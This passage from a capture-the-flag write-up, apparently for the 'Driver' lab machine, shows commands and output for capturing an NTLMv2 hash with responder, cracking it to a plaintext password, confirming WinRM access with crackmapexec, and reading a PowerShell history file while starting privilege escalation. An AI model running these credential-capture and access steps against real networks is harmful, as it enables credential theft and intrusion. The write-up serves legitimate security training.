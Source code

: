 Use responder to listen tun0 and discover nthash:

```console

└─╼$ sudo responder --lm -v -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0
           
[SMB] NTLMv2 Client   : 10.129.95.238
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:0af6cc2d39dd48de:60BD0905770EC06B5C226CBBE93B7ACA:010100000000000092169A494C67DA0145B9EC5AF7925C0300000000020000000000000000000000
----------------------------------------------------------------------------
# Cracked by hashcat
TONY::DRIVER:47c102b611dff08d:1c8e2a8ecc0fb3405aacf41fe5bfedd2:010100000000000049fabc4a4c67da01da7d50566af93bc400000000020000000000000000000000:liltony
----------------------------------------------------------------------------
└─╼$ crackmapexec winrm driver.htb -u tony -p liltony
SMB         driver.htb      5985   DRIVER           [*] Windows 10.0 Build 10240 (name:DRIVER) (domain:DRIVER)
HTTP        driver.htb      5985   DRIVER           [*] http://driver.htb:5985/wsman
WINRM       driver.htb      5985   DRIVER           [+] DRIVER\tony:liltony (Pwn3d!)
```

## Privilege Escalation

### Method1: RICOH v4.23

WinPEAS Output:

![image-20240312033743549](./Driver.assets/image-20240312033743549.png)

```console
*Evil-WinRM* PS C:\Users\tony\Documents> type C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'
```
